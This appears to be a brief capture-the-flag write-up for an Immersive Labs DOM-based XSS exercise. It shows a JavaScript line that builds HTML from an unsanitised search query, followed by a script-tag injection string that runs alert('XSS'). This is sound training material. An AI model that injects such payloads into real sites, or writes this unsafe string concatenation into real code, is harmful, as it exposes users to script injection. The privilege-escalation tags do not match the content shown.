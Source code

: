 ```yaml
---
date: 2025-01-15
categories: [CTF, ImmersiveLabs]
title: "IML - Cross-Site Scripting: Ep.4 – DOM-Based XSS"
tags: ['privilege escalation', 'rce', 'xss', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Cross-Site Scripting Ep.4 – D - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.4 – DOM-Based XSS


![image1](../resources/67d569a52546432e9ab3078c02172071.png)

![image2](../resources/5ab24e8e01f04e53aafdcb9682f2fef3.png)

**<u>Original query:</u>**

```bash
var tracker = '<div hidden><img src="/resources/search_assets/search.gif?query=' + query + '"></div>'

```
**<u>Inject the following:</u>**

```bash
'"\>\<script\>alert('XSS')\</script\>\<"'

```
**<u>Malicious query:</u>**

```bash
var tracker = '<div hidden><img src="/resources/search_assets/search.gif?query=' + '"><script>alert('XSS')</script><"' + '"></div>'

```
Paste entire malicious code above into Search box

![image3](../resources/d391ec42b4634412a55705b92b912c33.png)


![image4](../resources/709124b3a54f47a28161d72ce125a907.png)
